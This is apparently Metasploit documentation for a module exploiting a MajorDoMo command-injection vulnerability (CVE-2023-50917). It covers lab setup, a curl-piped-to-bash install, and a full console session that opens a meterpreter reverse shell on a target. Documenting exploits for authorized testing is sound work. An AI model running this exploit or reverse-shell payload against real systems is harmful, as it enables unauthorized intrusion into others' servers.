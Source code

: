 ## Vulnerable Application

This module exploits a command injection vulnerability in MajorDoMo versions before 0662e5e. To set up a test environment:

1. Download MajorDoMo by executing the following command:
```
curl -s https://raw.githubusercontent.com/sergejey/majordomo-rpi-install/main/install.sh | bash && bash ~/majordomo-rpi-install/install.sh
```
2. Follow the installation script instructions to install MajorDoMo on a Raspberry Pi or a Linux-based server.
3. Ensure that the network interface is active and properly configured during installation.
4. Replace `/var/www/html/modules/thumb/thumb.php` with
https://raw.githubusercontent.com/sergejey/majordomo/1167ca408a911c98937000516588c12cc33a1ab7/modules/thumb/thumb.php.
5. After installation, verify that the MajorDoMo service is operational and accessible over the network.


## Verification Steps

1. Install MajorDoMo with a version prior to 0662e5e.
2. Start msfconsole in your Metasploit environment.
3. Do: `use exploit/linux/http/majordomo_cmd_inject_cve_2023_50917`
4. Set the RHOSTS to the target IP address or hostname.
5. Do: `run`
6. If the target is vulnerable, the exploit will execute the specified payload.

## Options

No options

## Scenarios

### Successful Exploitation against MajorDoMo

This scenario demonstrates exploiting MajorDoMo on a Linux server.

**Environment**:
- MajorDoMo before 0662e5e
- Linux Server or Raspberry Pi
- Metasploit Framework

**Expected Output**:

```
msf6 > search cve_2023_50917

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                    ---------------  ----       -----  -----------
   0  exploit/linux/http/majordomo_cmd_inject_cve_2023_50917  2023-12-15       excellent  Yes    MajorDoMo Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/majordomo_cmd_inject_cve_2023_50917

msf6 > use 0
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/majordomo_cmd_inject_cve_2023_50917) > options 
Module options (exploit/linux/http/majordomo_cmd_inject_cve_2023_50917):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format typ
                                         e:host:port[,type:host:port
                                         ][...]
   RHOSTS                      yes       The target host(s), see htt
                                         ps://docs.metasploit.com/do
                                         cs/using-metasploit/basics/
                                         using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgo
                                         ing connections
   TARGETURI  /                yes       The URI path to MajorDoMo
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch paylo
                                              ad (Accepted: CURL, FT
                                              P, TFTP, TNFTP, WGET)
   FETCH_DELETE    false            yes       Attempt to delete the
                                              binary after execution
   FETCH_FILENAME  GRigjGGzCVI      no        Name to use on remote
                                              system when storing pa
                                              yload; cannot contain
                                              spaces.
   FETCH_SRVHOST                    no        Local IP to use for se
                                              rving payload
   FETCH_SRVPORT   8080             yes       Local port to use for
                                              serving payload
   FETCH_URIPATH                    no        Local URI to use for s
                                              erving payload
   FETCH_WRITABLE                   yes       Remote writable dir to
   _DIR                                        store payload; cannot
                                               contain spaces.
   LHOST           192.168.1.5      yes       The listen address (an
                                               interface may be spec
                                              ified)
   LPORT           4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/majordomo_cmd_inject_cve_2023_50917) > set rhosts 192.168.1.18
rhosts => 192.168.1.18
msf6 exploit(linux/http/majordomo_cmd_inject_cve_2023_50917) > exploit 
[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.18:80 can be exploited!
[+] Target is identified as MajorDoMo instance
[*] Performing command injection test issuing a sleep command of 9 seconds.
[*] Elapsed time: 9.112166871999989 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Sending stage (3045380 bytes) to 192.168.1.18
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.18:60054) at 2023-12-21 23:56:54 +0100

meterpreter > getuid 
Server username: www-data
```
